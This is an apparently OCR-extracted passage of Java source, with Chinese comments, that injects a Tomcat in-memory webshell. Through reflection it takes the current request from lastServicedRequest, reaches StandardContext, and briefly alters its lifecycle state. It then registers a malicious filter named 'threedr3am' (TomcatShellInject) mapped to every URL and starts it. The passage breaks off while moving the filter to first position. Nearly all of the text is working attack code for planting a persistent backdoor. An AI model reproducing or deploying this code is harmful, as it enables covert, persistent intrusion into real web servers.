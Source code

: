 ```java
                .getDeclaredField("lastServicedRequest");
            f.setAccessible(true);
            ThreadLocal t = (ThreadLocal) f.get(null);
            ServletRequest servletRequest = null;
            //不为空则意味着第一次反序列化的准备工作已成功
            if (t != null && t.get() != null) {
                servletRequest = (ServletRequest) t.get();
            }
            if (servletRequest != null) {
                javax.servlet.ServletContext servletContext = servletRequest.getServletContext();
                org.apache.catalina.core.StandardContext standardContext = null;
                //判断是否已有该名字的filter，有则不再添加
                if (servletContext.getFilterRegistration("threedr3am") == null) {
                    //遍历出标准上下文对象
                    for (; standardContext == null; ) {
                        java.lang.reflect.Field contextField = servletContext.getClass().getDeclaredField("context");
                        contextField.setAccessible(true);
                        Object o = contextField.get(servletContext);
                        if (o instanceof javax.servlet.ServletContext) {
                            servletContext = (javax.servlet.ServletContext) o;
                        } else if (o instanceof org.apache.catalina.core.StandardContext) {
                            standardContext = (org.apache.catalina.core.StandardContext) o;
                        }
                    }
                    if (standardContext != null) {
                        //修改状态，要不然添加不了
                        java.lang.reflect.Field stateField = org.apache.catalina.util.LifecycleBase.class
                            .getDeclaredField("state");
                        stateField.setAccessible(true);
                        stateField.set(standardContext, org.apache.catalina.LifecycleState.STARTING_PREP);
                        //创建一个自定义的Filter马
                        Filter threedr3am = new TomcatShellInject();
                        //添加filter马
                        javax.servlet.FilterRegistration.Dynamic filterRegistration = servletContext
                            .addFilter("threedr3am", threedr3am);
                        filterRegistration.setInitParameter("encoding", "utf-8");
                        filterRegistration.setAsyncSupported(false);
                        filterRegistration
                            .addMappingForUrlPatterns(java.util.EnumSet.of(javax.servlet.DispatcherType.REQUEST), false,
                                new String[]{"/*"});
                        //状态恢复，要不然服务不可用
                        if (stateField != null) {
                            stateField.set(standardContext, org.apache.catalina.LifecycleState.STARTED);
                        }

                        if (standardContext != null) {
                            //生效filter
                            java.lang.reflect.Method filterStartMethod = org.apache.catalina.core.StandardContext.class
                                .getMethod("filterStart");
                            filterStartMethod.setAccessible(true);
                            filterStartMethod.invoke(standardContext, null);

                            //把filter插到第一位
                            org.apache.tomcat.util.descriptor.web.FilterMap[] filterMaps = standardContext
                                .findFilterMaps();
```